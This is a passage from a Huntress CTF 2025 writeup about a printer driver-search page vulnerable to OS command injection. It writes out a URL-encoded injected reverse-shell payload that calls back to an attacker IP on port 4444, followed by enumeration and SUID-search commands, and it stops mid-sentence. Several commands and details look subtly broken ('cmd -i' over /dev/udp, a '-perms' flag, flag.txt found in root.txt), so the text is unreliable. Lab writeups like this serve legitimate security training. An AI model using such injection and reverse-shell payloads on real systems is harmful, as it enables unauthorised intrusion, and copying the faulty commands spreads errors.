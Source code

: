 ```yaml
---
title: "Huntress CTF 2025 Writeup: Phasing Through Printers"
date: 2025-11-01 16:36:48 +0100
categories: ["Huntress CTF 2025"]
tags: ["Web", "CTF", "Huntress", "Command Injection"]
image: https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-1.png
---
```


> I found this printer on the network, and it seems to be running... a weird web page... to search for drivers?
---

Submitting the form would send a HTTP GET request to `cgi-bin/search.cgi?q=` with parameter `q`. I decided to do some common injections on the input field, and found that it was vulnerable to os command injection.


![phasing-through-printers-2.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-2.png)

I then decided to get an interactive reverse shell, by firstly listening on port `4444`:

![phasing-through-printers-3.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-3.png)

And then using [revshells](https://www.revshells.com/) to generate a shell command for the server. Upon sending the command `q=;cmd%20-i%20>%26%20%2Fdev%2Fudp%2F10.200.3.4%2F4444%200>%261`, I was In!

![phasing-through-printers-4.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-4.png)

I first ran the `find / -type f -name flag.txt` to find where the flag was stored. And from the result, I found out it was stored in the `root.txt` however, I couldn't view it due to permissions. So I knew the next phase of the challenge was to do privilege escalation, so I ran the command `find / -type f -perms 4000` to look for a file thats suid vulnerable.

I found a file called 
